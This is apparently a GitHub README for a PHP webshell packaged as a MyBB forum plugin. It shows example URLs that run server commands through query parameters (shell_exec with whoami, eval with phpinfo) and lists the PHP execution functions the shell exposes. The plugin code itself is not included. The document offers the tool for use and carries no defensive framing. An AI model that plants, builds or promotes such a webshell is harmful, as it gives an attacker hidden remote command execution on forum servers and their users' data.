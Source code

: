 # MyBB-Shell-Plugin
MyBB Webshell Plugin

A plugin coded to be compatible with any version of MyBB *


A simple PHP webshell:
  After Activation:
    http://127.0.0.1/mybb/?cmd=FUNCTION&command=COMMAND
    
  Examples:
    http://127.0.0.1/mybb/?cmd=shell_exec&command=whoami
    
    http://127.0.0.1/mybb/?cmd=eval&command=phpinfo();
    
Current functions:
  shell_exec
  passthru
  exec
  system
  popen
  proc_open
  eval
  assert
  pcntl_exec
  ``
  
